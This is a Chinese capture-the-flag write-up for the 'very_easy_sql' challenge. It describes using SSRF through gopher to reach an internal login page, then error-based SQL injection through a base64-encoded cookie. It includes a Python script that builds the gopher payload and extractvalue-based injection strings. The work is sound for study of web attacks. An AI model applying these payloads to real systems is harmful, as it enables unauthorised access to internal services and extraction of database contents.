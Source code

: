 # 攻防世界 very_easy_sql(难度3) ssrf

## 思路

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1681725693148-cdf5d3c6-1f0c-4163-ac54-3383624e4e4a.png#averageHue=%23fafaf9&clientId=u775767ba-4dce-4&from=paste&height=162&id=ud8dfee1e&originHeight=323&originWidth=1204&originalType=binary&ratio=2&rotation=0&showTitle=false&size=20016&status=done&style=none&taskId=u0618f0ac-7614-47e0-8b55-4181a4a5119&title=&width=602)

- 点进去之后，发现这显然是ssrf，之前学的ssrf都是直接ssrf+mysql或者ssrf+redis，这里有ssrf+mysql会显示no,no,no，显然不行

放弃，看wp

## wp

### 查看源码发现curl

- 由于最开始的index.php界面需要是内网用户，且需要输入密码，因此找到可以curl的地方。
- 查看源码，发现/use.php(草，太久没做，查看源码都忘了)

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1681725788452-900c5236-1204-49cb-96de-70365693c735.png#averageHue=%23fbfbfa&clientId=u775767ba-4dce-4&from=paste&height=203&id=kbwJy&originHeight=405&originWidth=952&originalType=binary&ratio=2&rotation=0&showTitle=false&size=42127&status=done&style=none&taskId=ue9cd70b6-76aa-45ee-a78f-9a8e2c48942&title=&width=476)

### gopher+弱密码登录

- 可以用gopher访问127.0.0.1:80的index.php界面，上脚本，尝试用gopher+弱密码登录。burp抓包，访问/use.php。

```python
import urllib.parse
import base64


host = "127.0.0.1:80"
content = "uname=admin&passwd=admin"

# str = "admin') and extractvalue(1, concat(0x7e, (substr((select group_concat(flag) from flag), 20,50)),0x7e)) #"
# # 将字符串编码为bytes类型，然后使用base64.b64encode()函数进行Base64编码
# encoded_bytes = base64.b64encode(str.encode('utf-8'))

# # 将bytes类型的编码结果转换为字符串类型
# encoded_str = encoded_bytes.decode('utf-8')

content_length = len(content)
# cookie = f'this_is_your_cookie={encoded_str}'
test =\
"""POST /index.php HTTP/1.1
Host: {}
Content-Type: application/x-www-form-urlencoded
Content-Length: {}

{}
""".format(host,content_length, content)#\用于将字符串延续到下一行

tmp = urllib.parse.quote(test) 
new = tmp.replace("%0A","%0D%0A")#需要用%0d%0a换行
result = urllib.parse.quote(new) #二次url编码，因为php在收到后就进行了一次解码
print("gopher://"+host+"/_"+result)


```

- 此时有回显，发现cookie处是admin经过base64加密的结果

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1681726145844-d463442a-6dba-49c0-ac59-2933580a9f10.png#averageHue=%23f0f0f0&clientId=u775767ba-4dce-4&from=paste&height=214&id=OnZgK&originHeight=428&originWidth=1216&originalType=binary&ratio=2&rotation=0&showTitle=false&size=29856&status=done&style=none&taskId=u42b121ff-4b78-4549-a28f-fe941222623&title=&width=608)

### cookie注入

- 在发的包里加一个`Cookie=this_is_your_cookie=此处填写base64_encode(注入的payload)`
- 这里用`admin')#`测试成功，很奇怪
- 发现可以报错注入，用extractvalue + 爆破信息的语句即可获得flag

## 总结

- 记得查看源代码
- ssrf主要用gopher，除了gopher + mysql，还可以`gopher://127.0.0.1:80/index.php`
- 要对构造gopher payload的脚本很熟悉
- Cookie注入之前没注意过，要多看包的信息。
- Cookie注入有`admin')#`这种闭合方式，多注意`)`。